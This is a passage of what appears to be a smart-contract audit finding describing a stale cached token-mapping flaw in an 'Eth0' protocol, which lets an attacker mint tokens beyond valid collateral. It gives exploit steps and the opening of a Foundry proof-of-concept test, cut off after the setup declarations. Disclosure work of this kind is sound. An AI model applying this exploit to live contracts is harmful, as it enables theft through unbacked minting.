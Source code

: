 ## Exploit Setup

1.  **Initial Setup:**
    *   `_vulnerableTokenMappingInstance` is deployed and configured with `_tokenAPoc` (price 1 ETH) and `_tokenToRemovePoc` (price 1000 ETH).
    *   `_classicalOraclePoc` is deployed and configured with prices for both tokens.
    *   `RegistryContract` is set to use `_vulnerableTokenMappingInstance` and `_classicalOraclePoc`.
    *   The `_eth0Poc` instance is deployed and initialized. At this point, `_eth0Poc` caches the addresses of `_vulnerableTokenMappingInstance` and `_classicalOraclePoc`.
2.  **Registry Update (Patch):**
    *   `_patchedTokenMappingInstance` is deployed and configured *only* with `_tokenAPoc`.
    *   `RegistryContract` is updated to use `_patchedTokenMappingInstance`. (The oracle remains the same for this PoC, but `_patchedTokenMappingInstance` will only request the price for `_tokenAPoc`).
3.  **Exploitation:**
    *   The attacker (`_minterPoc`) calls the `mint()` function on `_eth0Poc`.
    *   `_eth0Poc`, because it uses its cached `_vulnerableTokenMappingInstance`, calculates the total collateral based on *both* `_tokenAPoc` *and* `_tokenToRemovePoc`.
    *   The attacker successfully mints an amount of `Eth0` that is greater than the valid backing according to `_patchedTokenMappingInstance`, but less than or equal to the incorrectly calculated backing by `_eth0Poc`.

## Proof of Concept (PoC)

Our complete PoC is created in the file `eth0-protocol/test/poc/PocStaleCachedDependency.t.sol`. The main test is `testPocStaleCachedTokenMappingAllowsExcessiveMint()`.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.20;

import {SetupTest} from "../setup.t.sol";
import {TokenMapping} from "src/TokenMapping.sol";
import {ClassicalOracle} from "src/oracles/ClassicalOracle.sol";
import {Eth0} from "src/token/Eth0.sol";
import {MockAggregator} from "src/mock/MockAggregator.sol";
import {ERC20Mock} from "openzeppelin-contracts/mocks/token/ERC20Mock.sol";
import {ERC1967Proxy} from "openzeppelin-contracts/proxy/ERC1967/ERC1967Proxy.sol"; 
import "forge-std/console.sol";
import {
    CONTRACT_TOKEN_MAPPING,
    CONTRACT_ORACLE,
    ETH0_MINT,
    MINT_CAP_OPERATOR
} from "src/constants.sol"; 
import {AmountExceedBacking} from "src/errors.sol"; 

contract PocStaleCachedDependencyTest is SetupTest {

    // PoC Specific Contracts
    TokenMapping internal _vulnerableTokenMappingInstance;
    TokenMapping internal _patchedTokenMappingInstance;

    ClassicalOracle internal _classicalOraclePoc;
    Eth0 internal _eth0Poc;

    ERC20Mock internal _tokenAPoc;
    ERC20Mock internal _tokenToRemovePoc;

    MockAggregator internal _oracleFeedAPoc;
    MockAggregator internal _oracleFeedTokenToRemovePoc;

    // Constants for PoC
    uint256 internal constant _TOKEN_A_PRICE_WAD_POC = 1 * 1e18; 
```